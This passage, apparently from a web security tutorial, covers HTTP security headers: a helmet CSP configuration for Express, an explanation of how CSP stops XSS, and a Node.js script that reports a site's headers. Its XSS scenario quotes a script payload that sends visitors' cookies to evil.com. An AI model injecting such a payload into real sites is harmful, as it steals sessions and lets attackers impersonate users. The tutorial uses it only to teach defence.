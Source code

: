 ```javascript
    styleSrc: ["'self'", "https://fonts.googleapis.com"],
    imgSrc: ["'self'", "data:", "https://img-cdn.com"],
    connectSrc: ["'self'", "https://api.yourservice.com"]
  }
}));

app.listen(3000, () => {
  console.log('Secure server running on port 3000');
});
```

In this example, the helmet middleware automatically adds recommended security headers, while we customize the CSP for our specific needs.

## Real-World Impact of Security Headers

Let's look at a practical example of how security headers prevent attacks:

### Scenario: XSS Attack

Without security headers:

1. Attacker finds a comment form on your site vulnerable to XSS
2. They post: `Great article! <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>`
3. When users view the comment, their cookies are sent to the attacker
4. Attacker uses stolen cookies to impersonate users

With proper security headers:

1. CSP header: `Content-Security-Policy: default-src 'self'; script-src 'self'`
2. Browser sees the injected script isn't from an allowed source
3. Script execution is blocked
4. Attack fails

## Testing Your Security Headers

You can test your site's security headers using:

```javascript
// Simple Node.js script to check headers
const https = require('https');

https.get('https://example.com', (res) => {
  console.log('Security Headers:');
  console.log('Content-Security-Policy:', res.headers['content-security-policy'] || 'Not set');
  console.log('Strict-Transport-Security:', res.headers['strict-transport-security'] || 'Not set');
  console.log('X-Content-Type-Options:', res.headers['x-content-type-options'] || 'Not set');
  console.log('X-Frame-Options:', res.headers['x-frame-options'] || 'Not set');
  console.log('X-XSS-Protection:', res.headers['x-xss-protection'] || 'Not set');
  console.log('Referrer-Policy:', res.headers['referrer-policy'] || 'Not set');
});
```

